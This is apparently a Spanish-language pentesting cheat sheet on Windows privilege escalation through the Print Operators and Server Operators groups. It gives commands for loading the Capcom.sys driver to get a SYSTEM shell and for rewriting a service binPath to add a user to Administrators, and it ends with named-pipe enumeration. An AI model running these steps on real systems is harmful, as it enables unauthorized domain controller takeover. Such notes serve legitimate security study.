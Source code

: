 ### Abuso del grupo Print Operators group
El print operators group da a sus miembros el SeLoadDriverPrivilege. Este privilegio nos permite:
- Gestionar, eliminar, compartir y crear impresoras en el DC.
- Permite tambien el login en el DC y apagarlo.

Para explotarlo es muy simple:
#### 1) Metemos los archivos EoPLoadDriver.exe, Capcom.sys y ExploitCapcom.exe
#### 2) Corremos EoPLoaderDriver.exe junto con el Capcom.sys
        EoPLoadDriver.exe System\CurrentControlSet\Capcom Capcom.sys

#### 3) Corremos el ExploitCapcom.exe y recibimos una shell con permisos de system

### Abuse Server Operators group
- Permite a sus miembros administrar servidores sin tener privilegios de Domain Admin.
- Tiene permitido loguearse en todos los servers incluído el DC
- Brinda a sus miembros el SeBackupPrivilege y SeRestorePrivilege
- Brinda a sus miembros la capacidad de controlar servicios locales

Para explotarlo:
##### Si lo hacemos en el DC nos adueñamos de todo.
#### 1) Buscamos un servicio local que corra como system
#### 2) Cambiamos el  path binario del servicio para agregarnos un user al grupo de admins
        sc config <servicio> binPath= "cmd /c net localgroup Administrators <user> /add"
#### 3) Iniciamos el servicio
        sc start <servicio>
#### 4) Deslogueamos y volvemos a loguear





*******
-------

# EXPLOTACION DE SERVICIOS

### Explotación de pipelist

#### 1)Listamos los pipelist:

##### Cmd:

        pipelist.exe /accepteula
##### Powershell:

        gci \\.\pipe\
